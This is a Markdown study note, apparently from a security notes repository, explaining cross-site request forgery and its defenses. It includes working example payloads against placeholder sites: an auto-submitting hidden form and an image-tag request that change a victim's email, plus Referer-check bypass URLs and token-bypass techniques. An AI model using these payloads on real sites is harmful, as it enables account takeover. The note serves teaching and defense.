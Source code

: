 # Cross-site request forgery (CSRF) :performing_arts:

Trick a user into performing an action they don't intend to perform.  This could be:

- changing their account email to allow for password reset,
- changing content or users on the site, or
- transfering funds to the attacker.

## Key factors

For CSRF to be possible:

1. There must be an action a user can be tricked into performing unintentionally,
1. Only session cookies are used to validate the user's permission to perform the action; and
1. The action must have predictable parameters (e.g. no CSRF tokens involved).

This HTTP request is vulnerable to CSRF:

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

The attacker can create a page with the following HTML page to cause the user to change their email address when a victim visits it:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

For the above to work, the victim must be logged in to the vulnerable website and the session cookie is not using the `SameSite` attribute.

:warning: CSRF attacks can also occur when HTTP basic auth or cerfiticate auth is used by a site.

### CSRF `SameSite` defense

An attribute set on session cookies that can have one of two values:

- `Strict`: the cookie is only sent with same-site requests.
- `Lax`: the cookie is sent with same-site requests and top-level `GET` navigations (e.g. user clicking a link).

The risk with `Lax` is that some sites will allow sensitive actions to be performed via `GET` requests, even if not explicitly coded that way.

## Attacks

CSRF are delivery is similar to XSS and depends on the HTTP verb used to perform the action:

- `POST`: create an HTML form with the action and params and induce the victim to visit the page.
- `GET`: create an image element with the malicious action as a `src` and have the victim visit the page:

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

There are several different ways to bypass CSRF defenses, depending on the site:

- CSRF not validated for `GET` requests.
- CSRF not validated if token is missing.
- CSRF not tied to user session and only checked for validity.  In this case, the attacker can use their own CSRF token in the attack.
- CSRF tied to a non-session cookie.  Relies on the attacker being able to set a cookie on the victim's browser.
- CSRF is set in the cookie ("double submit cookie pattern") and the attacker can set the cookie on the victim's request.

## Referer based validation

Some sites attempt to prevent CSRF by checking the `Referer` header.  However this header can be spoofed or crafted in such a way to bypass the check.

```sh
# Bypass check where referer header must start with the vulnerable site domain
http://vulnerable-website.com.attacker-website.com/csrf-attack

# Bypass check were referer must appear in the header value
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

:bulb: Modern browsers now strip query parameters from the `Referer` header.  You can override this by setting the `Referrer-Policy: unsafe-url` header on your request.

## XSS vs CSRF

Both attacks involve causing the victim to unintentionally perform an action:

- 'XSS': caues the victim to execute malicious JavaScript on the vulnerable site.
- 'CSRF': causes the victim to perform an action on the vulnerable site through visiting a malicious page.

CSRF is generally harder to exploit because most sites implement CSRF defenses and the attacks usually only apply to a subset of user actions.

CSRF are also only "one-way" in that they cause a user to submit a request, but the attacker cannot see the response directly.  With XSS the attacker can see the response and can use it to further their attack.

### XSS and CSRF tokens

Reflected XSS can be mitigated by CSRF tokens since they add a unique value to each request.  But, CSRF tokens are not always validated for all requests and can be bypassed.

Stored XSS are not prevented by CSRF as they trigger when the user visits the page, which will include a valid CSRF token generated by the site.

## Prevent

- Use CSRF tokens with high entropy that are tied to the user's session.
- Use `SameSite` cookies.
- Provide additional forms of verification on sensitve requests.

## CSRF tokens

Unique, high-entropy random value submitted with a user's request.  The server validates the token to ensure the request is not a CSRF attack.  Additional context specific values (e.g. timestamp + salt) can be used to generate the token, which makes it harder to guess.

These tokens should be transmitted either as:

- a hidden field that appears before any user controllable content to prevent the attacker from inserting their own token into the request; or
- a header value since browsers prevent injecting custom headers on cross-domain requests.

```html
<input type="hidden" name="csrf-token" value="CIwNZNlR4XbisJF39I8yWnWX9wX4WFoz" />
```

Tokens should not be transmitted as `GET` request parameters because:

- it will be logged in client/server-side logging,
- it is visible in the user's address bar, and
- it can be transmitted in the `Referer` header to third parties.

## Tools

- [Burp web vulnerability scanner](https://portswigger.net/burp/vulnerability-scanner)
- [Generate CSRF PoC (pro)](https://portswigger.net/burp/documentation/desktop/functions/generate-csrf-poc)

## References

- https://portswigger.net/web-security/csrf